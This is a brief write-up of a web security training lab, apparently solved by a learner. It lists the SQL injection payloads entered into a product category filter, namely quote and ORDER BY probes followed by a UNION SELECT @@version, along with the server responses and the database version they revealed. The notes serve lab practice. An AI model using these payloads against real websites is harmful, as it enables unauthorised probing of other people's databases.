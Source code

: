 Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

Vuln : SQLI in product category Filter
Task : Display DB version of mysql and Microsoft

'-> HTTP/2 500 Internal Server Error
' order by 1-- -> OK
' order by 2-- -> OK
' order by 3-- -> HTTP/2 500 Internal Server Error

2 cloumns in DB.

' union select 'a',null-- : OK
' union select @@version,null-- : return version of mysql and microsoft DB
`8.0.39-0ubuntu0.20.04.1`
